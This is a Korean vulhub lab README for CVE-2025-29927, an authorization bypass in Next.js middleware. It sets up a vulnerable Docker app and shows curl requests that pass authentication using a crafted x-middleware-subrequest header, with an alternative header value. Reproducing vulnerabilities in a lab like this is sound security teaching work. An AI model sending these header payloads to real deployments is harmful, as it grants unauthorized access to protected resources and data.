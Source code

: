 # Next.js 미들웨어 인가 우회 (CVE-2025-29927)

> 화이트햇 스쿨 3기 - [김민수 (@idealinsane)](https://github.com/idealinsane)

[영어 버전(Chinese version)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.md)
[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.zh-cn.md)

Next.js는 서버 사이드 렌더링 (Server-Side Rendering), 정적 사이트 생성 (Static Site Generation), 통합 라우팅 시스템 (Integrated Routing System) 등의 기능을 제공하는 인기 있는 React 기반 웹 애플리케이션 프레임워크입니다.
인증 (Authentication) 및 인가 (Authorization) 목적으로 **미들웨어 (Middleware)** 를 사용하도록 구성된 경우, 버전 14.2.25 이전 및 15.2.3 이전에서는 인가 우회 (Authorization Bypass) 취약점이 존재합니다.

이 취약점은 공격자가 `x-middleware-subrequest` 헤더를 조작하여 미들웨어 기반 보안 제어를 우회함으로써 보호된 자원과 민감한 데이터에 무단 접근할 수 있게 만듭니다.

**참고 자료 (References):**

- <https://github.com/advisories/GHSA-f82v-jwr5-mffw>
- <https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-29927>

<br/>

### 환경 설정 (Environment Setup)

다음 명령어를 실행하여 Next.js 15.2.2 기반의 취약한 애플리케이션을 시작합니다:

```
docker compose up -d
```

애플리케이션이 시작되면, `http://your-ip:3000` 주소를 방문할 때 로그인 페이지로 리디렉션됩니다. 기본 자격 증명인 `admin:password`를 입력하여 로그인하고 대시보드에 접근할 수 있습니다.

<br/>

### 취약점 재현 (Vulnerability Reproduction)

유효한 자격 증명 없이 대시보드에 직접 접근하려고 하면, 로그인 페이지로 리디렉션됩니다:

```bash
curl -i http://your-ip:3000
```

![](1.png)
취약점을 악용하려면, 요청에 `x-middleware-subrequest` 헤더를 추가하고 값으로 `middleware:middleware:middleware:middleware:middleware`를 설정합니다. 이로 인해 Next.js 미들웨어가 해당 헤더를 잘못 처리하여 인증 검사를 우회하게 됩니다:

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```

![](2.png)

보시다시피, 대시보드에 인증 없이 접근이 가능합니다.

> 만약 이전 페이로드가 작동하지 않을 경우, `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` 헤더를 시도할 수도 있습니다.
